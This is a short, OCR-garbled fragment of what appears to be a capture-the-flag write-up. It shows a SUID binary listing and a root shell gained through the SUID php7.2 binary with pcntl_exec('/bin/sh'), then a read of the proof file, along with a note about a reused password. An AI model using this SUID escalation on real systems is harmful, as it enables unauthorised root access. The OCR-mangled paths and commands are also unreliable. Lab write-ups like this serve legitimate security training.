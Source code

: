 nothing interseting found same passwd babygirl

<img src="photographer/media/image19.png" style="width:6.40833in;height:3.50833in" alt="-rwsr-xr - 1 1 -rwsr-xr-x 1 -rwsr-sr-x 1 -rwsr-xr-x 1 -rwsr-xr -x 1 -rwsr-xr-x 1 -rwsr-xr-x -rwsr-xr 1 -rwsr-xr-x 1 -rwsr-xr -x 1 -rwsr-xr -x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr -x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr-x 1 -rwsr-xr -x root root root root root root root root root root root root root root root root root root root root root messagebus 42K Jun 11 2020 /usr/lib/dbus-l.ø/dbus-daemon-launch-helper root 10K Mar 27 root 11K Oct 25 root 109K Jul 10 root 419K Mar 4 root 19K Mar 18 root 15K Mar 27 dip 386K Feb 11 2017 /usr/lib/eject/dmcrypt-get-device 2018 /usr/lib/xorg/Xorg.wrap 2020 /usr/lib/snapdi snap-confine 2019 /usr/lib/openssh/ssh-keysign Ubuntu_snapd 2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox 2019 /usr/lib/policykit-l/polkit-agent-helper-l root root root root root root root root root root root root root 23K Mar 27 53K May 16 39K May 16 74K May 16 4.7M Jul 9 134K Jan 31 2020 /usr/sbin /pppd 2019 /usr/binZplcexec 2017 /usr/bin /passwd 2017 /usr/binlnevvevp 2017 /usr/bin/gpasswd /usr/bin/php7.2 2020 2020 /usr/bin 40K 49K 44K 31K 40K 44K 27K May May May Jul May May May 16 16 7 12 16 7 16 2017 2017 2014 2016 2018 2014 2018 /usr/bin/chsh /usr/binkchün /bin/ping /bin/fusermount /bin /bin/ping6 /bin Linuxo.10 to 5.1.17(CVE-2 HP-UX 10.20 (Unknown SUID binary suSE_9.3/10 Apple_Mac_OSX(Lion)_l(erne1_xnu BSD/Linux(08-1996) " />

<img src="photographer/media/image20.png" style="width:6.5in;height:4.9in" alt="w.w-da taaphotographer : /tmp$ # id whoami root # cd / root proof. txt # cat proof. txt php7.2 -r oyo/o- . :o: -o:-syh//. ++.-ys/:/y- o/ :yo-:hNN ++ soh-/mMMN-- . •Y /++:NMMMY-. &quot;pcntl_exec( &#39; /bin/sh&#39; , 00. —/+/ ./ys/-.o/ . MNs .1+0 -- s .-/MMMd-o:+ -S ---:hMMMmoss: +/ s- h h s: S— hMMMN&#39; shY0+: . -/+syd+ : MMMMO - MMMMMY . /MMMMMd: +mMMMMN —dMMMMd MMMMMMd /hdh+ .. 4/. -ohdy --mMMMMMm ./NMMMMS mmNh dMMMMd : /MMMMNmmmmd/ s- : o sdmmmmMMMMN. SMMMMMMMMS. - hMMMMMMMM/ hMMMMMMN+ +mMMMMMNhd+h/+h+dhMMMMMMd: . SNMMMMMMMMMMMMMMMMMMmo/ . h s. o. s- -s. " />
